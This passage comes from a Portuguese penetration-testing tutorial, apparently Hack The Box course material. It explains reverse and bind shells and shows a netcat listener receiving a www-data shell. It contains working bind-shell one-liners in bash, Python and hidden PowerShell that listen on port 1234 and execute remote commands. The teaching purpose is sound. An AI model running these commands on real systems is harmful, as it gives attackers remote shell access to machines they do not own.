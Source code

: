 Podemos utilizar o exploit que temos sobre o host remoto para executar um dos comandos acima, ou seja, através de um exploit Python ou um módulo Metasploit, para obter uma conexão reversa. Assim que o fizermos, devemos receber uma conexão em nosso `netcat` ouvinte:

```shell-session
casluxd@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Como podemos ver, após recebermos uma conexão em nosso `netcat` ouvinte, conseguimos digitar nosso comando e obter sua saída diretamente em nossa máquina.

A `Reverse Shell` é útil quando queremos obter uma conexão rápida e confiável com nosso host comprometido. No entanto, um `Reverse Shell` pode ser muito frágil. Assim que o comando shell reverso for interrompido, ou se perdermos nossa conexão por qualquer motivo, teremos que usar a exploração inicial para executar o comando shell reverso novamente para recuperar nosso acesso.

## Bind Shell

Outro tipo de shell é um arquivo `Bind Shell`. Ao contrário de um `Reverse Shell`que se conecta a nós, teremos que nos conectar a ele na porta de escuta do `target`.
Assim que executarmos um `Bind Shell Command`, ele começará a escutar em uma porta no host remoto e vinculará o shell desse host, ou seja, `Bash` ou `PowerShell`, a essa porta. Temos que nos conectar a essa porta com `netcat`, e obteremos o controle por meio de um shell nesse sistema.

#### Comando Bind Shell

Mais uma vez, podemos utilizar [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md) para encontrar um comando adequado para iniciar nosso shell de ligação.

Observação: iniciaremos uma conexão de escuta na porta '1234' no host remoto, com IP '0.0.0.0' para que possamos nos conectar a ela de qualquer lugar.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
